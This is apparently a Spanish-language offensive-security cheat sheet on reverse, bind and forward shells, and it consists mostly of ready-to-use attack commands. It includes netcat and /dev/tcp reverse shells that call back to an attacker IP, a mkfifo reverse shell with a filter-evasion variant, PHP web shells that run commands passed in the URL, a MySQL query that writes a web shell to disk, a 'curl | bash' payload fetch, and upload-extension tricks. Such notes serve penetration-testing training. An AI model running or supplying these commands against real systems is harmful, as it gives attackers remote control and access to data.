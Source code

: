 # Tipos de ReverShell

Tags: #ReverShell #Comandos #Netcat #BindShell

Tenemos diferentes tipos de Revershell este pagina Web:
* [Monkey-Pentester](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [ReverseShells-Generator](https://www.revshells.com/) 
* [Cheatsheet-ReverseShells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

**Reverse Shell**: Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, permitiéndole tomar el control de la máquina remota.

**Bind Shell**: Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.

**Forward Shell**: Esta técnica se utiliza cuando no se pueden establecer conexiones Reverse o Bind debido a reglas de Firewall implementadas en la red. Se logra mediante el uso de **mkfifo**, que crea un archivo **FIFO** (**named pipe**), que se utiliza como una especie de “**consola simulada**” interactiva a través de la cual el atacante puede operar en la máquina remota. En lugar de establecer una conexión directa, el atacante redirige el tráfico a través del archivo **FIFO**, lo que permite la comunicación bidireccional con la máquina remota.

La mayoría de las paginas al momento de comprometerlas encontraremos el usuario **www-data** que es el encargado de gestionar la parte de servicios web.

## Netcat

```bash 
# Netcat nos ayuda a poder hacer 'Banner grabbing, Port scanning, Transferring files, Bind/Reverse shells', puede ser utilizado como 'Modo cliente, Modo servidor'

❯ nc -nv <IP> <port>        # Hacer que Netcat se conecte a un puerto especifico de una IP por TCP
❯ nc -nvu <IP> <port>       # Hacer que Netcat se conecte a un puerto especifico de una IP por UDP
	# n = No DNS
	# u = UDP 
	# v = Verbose


❯ nc -nc <IP> <Port> < file.txt        # Esta es la forma de enviar un archivo (Maquina atacante 'Envia')
❯ nc -nlvp 443 > file.txt              # El archivo que reciba lo colocara en file.txt (Maquina victima 'Recibe')
```

## RCE MySQL

```bash 
# Debemos estar dentro del servicio de MySQL

❯ select '<?php  $output=shell_exec($_GET["cmd"]);echo "<prep>".$output."</prep>"?>' into outfile '/var/www/html/shell.php' from mysql.user limit 1; 

# Ahora en la URL podemos ejecutar comandos 
❯ shell.php?cmd=whoami            
```

## Reverse / Bind Shells directamente

**Rever Shell:** 
```bash 
# Desde la URL de la Web (Maquina victima)

❯ nc -nlvp 443   # Ponernos en escucha con Netcat (Maquina atacante) Linux     

# Para la Revershell en la URL de la web (Maquina victima)
❯ nc -e /bin/bash IP 443
❯ bash -i >& /dev/tcp/IP/443 0>&1
	# Ip = Ip del atacante 

❯ bash -c "bash -i >& /dev/tcp/10.10.14.13/443 0>&1"
# Donde debemos de urlencodear el '&'
	& = %26
```

```bash 
# Desde la terminal del SO
❯ /usr/share/Seclists/Web-Shells/FuzzDB/nc.exe     # nc.exe nos ayuda a conseguir una ReverShell en Windows (Ruta en Linux)

❯ nc -nlvp 443                                     # Ponernos en escucha con Netcat (Maquina atacante) 
❯ nc.exe -nv <IP> 443 -e cmd.exe                   # Completar la Reverse shell desde una maquina victima Windows

❯ nc -nlvp 443                                     # Ponernos en escucha con Netcat (Maquina atacante) 
❯ nc -nv <IP> 443 -e /bin/bash                     # Completar la Reverse shell desde una maquina victima Linux
```

**Bind Shell:**
```bash
# Desde la terminal del SO

1. ❯ nc.exe -nlvp 443 -e cmd.exe            # Ejecutamos desde la terminal (Maquina victima) para ponernos en escucha y hacer una BindShell en Windows 
1. ❯ nc IP 443                              # Ejecutamos en para completar la Bind Shell (Maquina atacante) Linux


2. ❯ nc -nlvp 443 -c /bin/bash              # Ejecutamos desde la terminal (Maquina victima) para ponernos en escucha y hacer una BindShell en Linux
2. ❯ nc.ex -nv IP 443                       # Ejecutamos en para completar la Bind Shell (Maquina atacante) Windows 
```

## Reverse / Bind Shells cuando subes un archivo a la Web (Maquina victima)

```bash 
# Diferentes extensiones PHP para subir 'Shells' maliciosas

* php
* php3
* php4
* php5
* pht
* phtm
* phtml
* phar
```

## RCE en Web

```php
# Para ejecutar comandos en la Web debemos de crear o subir un archivo en el /var/www/html con el siguiente contenido: 

❯ nano cmd.php

	<?php 
		echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
	?>

# Las etiquetas que usamos ahí son 'Pre' de preformateadas y nos sirven para que nos muestre bien el Output. Ya con ese archivo y que la Web interprete 'php' podemos colocar en la url (?cmd=) para colocar comandos y ver que Shell podriamos usar para conectarmos a nuestra maquina de 'Atacante'
```

```bash
❯ nano index.html
	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.2/443 0>&1

	# IP = IP de atacante
	# 443 = Puerto a usar

❯ curl ❮IP❯ | bash                     # Lo que hace Curl es obtener un index.html del servidor y despues con el bash haremos que nos interprete la data en bash
```

## ReverShell en php:

```php
<?php
   system("bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'")
?>

	# IP = IP de atacante
	# 443 = Puerto a usar
```

```bash
# Escucha por Netcat en espera de la Revershell

❯ nc -nlvp 443            # Linux

❯ rlwrap nc -nlvp 443     # Windows 

	# nc = Netcat 
	# n = No DNS
	# l = Modo escucha, conexiones entrantes
	# v = verbose
	# p = numero local de puerto en esucha

```

```bash 
❯ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <IP> 443 >/tmp/f          # Podemos usar este comando para hacer una Revershell desde una bash en la maquina victima 
❯ r\m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> 4242 >/tmp/f   # Evadir filtros

# Nos debemos de poner en escucha antes de esta manera
❯ nc -nlvp 443                   # Escucha en la maquina de atacante
```

```bash 
❯ pwncat-cs -lp 443                         # Podemos usar esta herramienta llamada 'Pwncat'
	❯ run enumerate                        # Enumera todo el sistema 
	❯ run enumerate.user                   # Enumeras los usuarios
	❯ run enumerate.system.network         # Enumeras las interfaces de la maquina 
	❯ back                                 # Nos coloca en la ruta de la terminal de la victima
```

## ForwardShell

Para ejecutar comandos en la Web debemos de crear o subir un archivo en el **/var/www/html** con el siguiente contenido: 
```shell
❯ nano cmd.php
	<?php 
		echo shell_exec($_GET['cmd']);
	?>

```
Las etiquetas que usamos ahi son **Pre** de preformateadas y nos sirven para que nos muestre bien el Output
Ya con ese archivo y que la Web interprete **php** podemos colocar en la url **?cmd=** y ahí pode colocar comandos y conectarnos a nuestra maquina de **Atacante** por una **ForwardShell**

Descargaremos el siguiente archivo y lo ejecutaremos con Pyhton3 para hacer una **ForwardShell**: 
Debemos estar en la pestana de **Raw**
* [Tty_Over_Http](https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py)
```bash
❯ wget https://raw.githubusercontent.com/s4vitar/ttyoverhttp/master/tty_over_http.py

	# Descargarnos el archivo 'tty_over_html'
	# Cambiamos la parte de index.php por cmd.php (Dependiendo el servidor)

❯ python3 tty_over_http.py 
```